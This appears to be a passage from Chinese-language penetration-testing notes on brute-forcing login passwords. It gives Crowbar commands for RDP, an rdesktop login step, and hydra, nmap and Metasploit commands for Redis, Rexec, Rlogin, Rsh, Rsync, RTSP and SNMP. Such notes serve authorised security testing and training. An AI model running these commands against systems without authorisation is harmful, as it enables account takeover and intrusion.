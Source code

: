 方法二：Crowbar 
- 工具：Crowbar
- 安装：`sudo apt install crowbar `
- 使用：

**爆破单主机：**
```
# 当爆破 RDP 服务时，线程最好使用 1，因为 RDP 不能很好地处理多线程，**如果使用多线程，会造成误报和漏报**
>> crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1 -v

Command explain:
-b 协议
-s 目标
-u 用户名
-C 密码字典
-n 线程
-v 详细模式
```
**爆破网段(多个主机)**
```
>> crowbar -b rdp -s 10.11.0.22/32 -u admin -d -C ~/password-file.txt -n 1 

Command explain:
-d port discover，会在爆破之前根据-b 指定的服务去扫描端口，如果端口未开放则跳过这台主机
```

爆破成功之后使用rdesktop尝试登录：
```
rdesktop -g 50% -u Administrator -p {password} {IP}
```


### Redis
```
msf> use auxiliary/scanner/redis/redis_login
nmap --script redis-brute -p 6379 <IP>
hydra –P /path/pass.txt <IP> redis
```
### Rexec
```
hydra -l <username> -P <password_file> rexec://<Victim-IP> -v -V
```
### Rlogin
```
hydra -l <username> -P <password_file> rlogin://<Victim-IP> -v -V
```
### Rsh
```
hydra -L <Username_list> rsh://<Victim_IP> -v -V
参考链接：rsh-grind | pentestmonkey
```
### Rsync
```
nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>
```
### RTSP
```
hydra -l root -P passwords.txt <IP> rtsp
```
### SNMP
```
msf> use auxiliary/scanner/snmp/snmp_login
nmap -sU --script snmp-brute <target> [--script-args snmp-brute.communitiesdb=<wordlist> ]
```
